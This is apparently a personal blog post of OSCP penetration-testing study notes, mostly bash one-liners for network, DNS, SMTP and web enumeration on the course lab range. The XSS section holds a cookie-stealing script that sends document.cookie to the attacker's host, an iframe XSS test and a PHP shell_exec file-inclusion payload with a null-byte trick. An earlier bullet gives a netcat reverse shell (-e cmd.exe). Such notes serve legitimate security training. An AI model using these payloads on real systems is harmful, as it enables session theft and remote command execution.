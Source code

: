 ```yaml
---
layout: post
title: OSCP Notes
---
```


## BLUF  
"Bottom Line Up Front" for the non-military types. Honestly I just want to get my notes onto the interwebs and off my VM. I've 
done a lot of bash scripting in OSCP that is super useful, but I can't always remember the syntax. Here's to fixing that. I'll do another blog post tomorrow when I'm not half asleep.  
Edit: After posting this my JS XSS tester executed. Kinda surprising that Github lets you incorporate XSS into a site they host. 
Maybe it's just a don't ask don't tell policy? Gotta put some filler in to stop the code from executing since it would probably 
freak out any onlookers.

## Meat and Potatoes  

### Starting OSCP Work  

- Example OpenVPN firewall - /usr/share/doc/openvpn/examples/sample-config-files/firewall.sh
- Add firewall rules - iptables -A INPUT -p tcp --dport 4444 -j ACCEPT
- Plink (used for something... I don't remember) /usr/share/windows-binaries/plink.exe
- Keepnote for note taking on boxes
- If there is firewall issues, try pushing the cmd line from the remote host by passing nc -nv [IP] [Port] -e cmd.exe from remote end and setting up a listener to catch it
- Recon-ng for passive information gathering

### NMAP/ NC Info Gathering  

- root@kali:~/OSCP# nc -nvv -w 1 -z 10.11.23.156 3385-3395 (full TCP handshake scan using NC)
- root@kali:~/OSCP# nc -unvv -w 1 -z 10.11.23.156 160-165 (UDP scan using NC)
- /usr/share/nmap (location of nmap config files)

Get top UDP ports (over .01 usage according to NMAP)  
- cat /usr/share/nmap/nmap-services | grep '/udp'| cut -f2,3 -d$'\t'| sort -k2 -r | head -n 80 | cut -f1 -d'/'

### DNS  

- host -t ns [domain_name] (to find name servers for given domain)
- host -t mx [domain_name] (to find mail exchange servers for given domain)
- for ip in $(cat NMAP/alives.txt); do dnsrecon -d $ip -t axfr; done

### SMTP/MIB  

- cat mib-values | cut -f1 -d$'\t' (to cut from tab delimited)
- tail -n +1 10.* (cat all files in a directory with the filename as a header)
- for ip in $(cat smtp-open.txt); do for user in $(cat users.txt) ; do ./vrfy.py $ip $user; done; done | grep ^"250" > smtp_open_connected_users & (to find SMTP users who have successfully connected)
- for ip in $(cat NMAP/alives.txt); do nc -nv $ip 25; done (to test SMTP connection using nc [not as good as python script])
- for ip in $(ls | cut -c1-11 | uniq); do mkdir $ip ; done (to creat folders for each ip address in the SNMP directory)

### WGET  
To find the ips with information returned from WGET  
- tail -n +1 ./WGET/*/* | grep connected | cut -f3 -d' '| sort -u | cut -f4 -d'.' | cut -f1 -d':' | sort -u > ./WGET/web_vuln_ips
 
For moving vulnerable IPs to seperate folder  
- for ip in $(cat web_vuln_ips); do  mv 10.11.1.$ip 'Vulnerable Servers'; done 

To get list of vulnerable files downloaded  
- for ip in $(cat ./WGET/web_vuln_ips); do  tail -n +1 ./WGET/$ip/* | grep 10.11.1.$ip/; done

### XSS Commands

To test JS XSS vulnerability  
- <iframe SRC="(use your IP):(Port to listen on) /report" height="0" width="0"></iframe></script>alert("XSS through Javascript, success");</script>

Cookie Stealing Inject  
- <script>new Image().src="http://(use your IP):81 /bogus.php?output="+document.cookie;</script>

Malicious php code to host on local box  
- echo '<?php echo shell_exec("ipconfig");?>' > /var/www/html/evil.txt

Then place the appropriate url in place of the php element  
- http://(local ip)/evil.txt  

Then monitor Apache log once the above has been placed in URL
- tail -f /var/log/apache2/access.log  

If php is adding unnecessary values, php 5.3 and below are vulnerable to terminating characters with null character
- http://(local ip)/evil.txt%00  
  
### Dirbuster  
- Wordlist - /usr/share/dirbuster/wordlists/directory-list-1.0.txt (one shown in OSCP video)
- Deselect "Brute Force Files" & "Be Recursive"
- Set number of threads to 70+
